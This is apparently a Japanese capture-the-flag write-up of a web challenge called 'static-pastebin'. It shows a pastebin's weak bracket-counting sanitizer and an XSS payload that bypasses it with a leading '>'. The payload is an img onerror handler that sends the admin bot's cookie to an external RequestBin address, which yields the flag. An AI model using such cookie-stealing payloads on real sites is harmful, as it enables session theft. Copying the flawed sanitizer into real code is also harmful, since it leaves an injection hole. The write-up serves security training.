 # static-pastebin:web:373pts
I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it [here](https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin)  
Site: [static-pastebin.2020.redpwnc.tf](https://static-pastebin.2020.redpwnc.tf/)  

# Solution
ターゲットサイトとAdmin Botへ巡回命令を出せるサイトが与えられる。  
Static Pastebin  
[site1.png](site/site1.png)  
Static Pastebin Admin Bot Submission  
[site2.png](site/site2.png)  
入力によりユーザがページを作成できるようだ。  
そのページをAdmin Botに渡し、XSSでクッキーを抜く可能性が高い。  
作成したページでのXSSを試み、[RequestBin.com](https://requestbin.com/)で待ち受ける。  
作成したページでは以下のスクリプト(script.js)が動いていた。  
```JavaScript:script.js
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```
`<`と`>`をカウントしタグをブロックしている。  
しかし以下のように一度`>`をかませるとタグを書き込める。  
```html
><img src=1 onerror="window.location.href='https://[RequestBinURL]?get='+document.cookie">
```
これによって作成されたページをAdmin Botに渡すとflagが得られる。  
```text
GET/?get=flag=flag{54n1t1z4t10n_k1nd4_h4rd}
```

## flag{54n1t1z4t10n_k1nd4_h4rd}